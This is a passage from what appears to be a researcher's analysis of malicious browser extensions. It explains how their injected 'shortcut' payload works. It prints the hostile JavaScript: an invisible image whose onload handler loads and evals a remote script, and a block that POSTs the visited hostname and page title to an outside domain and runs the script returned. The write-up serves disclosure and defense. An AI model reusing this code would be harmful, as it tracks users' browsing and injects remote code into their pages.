 Not all extensions implement all of these points. With some of the extensions the malicious functionality seems incomplete. I assume that it isn’t being added all at once, instead the support for malicious configurations is added slowly to avoid raising suspicions. And maybe for some extensions the current state is considered “good enough,” so nothing is to come here any more.

### The payload

After I already published this article I finally got a sample of the malicious “shortcut” value, to be applied on all websites. Unsurprisingly, it had the form:

```html
<img height="1" width="1" src="data:image/gif;base64,…"
     onload="(() => {…})();this.remove()">
```

This injects an invisible image into the page, runs some JavaScript code via its `load` event handler and removes the image again. The JavaScript code consists of two code blocks. The first block goes like this:

```js
if (isGoogle() || isFrame()) {
    hideIt();
    const script = yield loadScript();
    if (script) {
        window.eval.call(window, script);
        window.gsrpdt = 1;
        window.gsrpdta = '_new'
    }
}
```

The `isGoogle` function looks for a Google subdomain and a query – this is about search pages. The `isFrame` function looks for frames but excludes “our frames” where the address contains all the strings `q=`, `frmid` and `gsc.page`. The `loadScript` function fetches a script from `https://shurkul[.]online/v1712/g1001.js`. This script then injects a hidden frame into the page, loaded either from `kralforum.com.tr` (Edge) or `rumorpix.com` (other browsers). There is also some tracking to an endpoint on `dev.astralink.click` but the main logic operating the frame is in the other code block.

The second code block looks like this (somewhat simplified for readability):

```js
if (window.top == window.self) {
    let response = await fetch('https://everyview.info/c', {
        method: 'POST',
        body: btoa(unescape(encodeURIComponent(JSON.stringify({
            u: 'm5zthzwa3mimyyaq6e9',
            e: 'ojkoofedgcdebdnajjeodlooojdphnlj',
            d: document.location.hostname,
            t: document.title,
            'iso': 4
        })))),
        headers: {
            'Content-Type': 'text/plain'
        },
        credentials: 'include'
    });
    let text = await response.text();
    runScript(decodeURIComponent(escape(atob(text))));
} else {
    window.addEventListener('message', function(event) {
        event && event.data && event.data.boosterWorker &&
            event.data.booster && runScript(event.data.booster);
    });
}
```
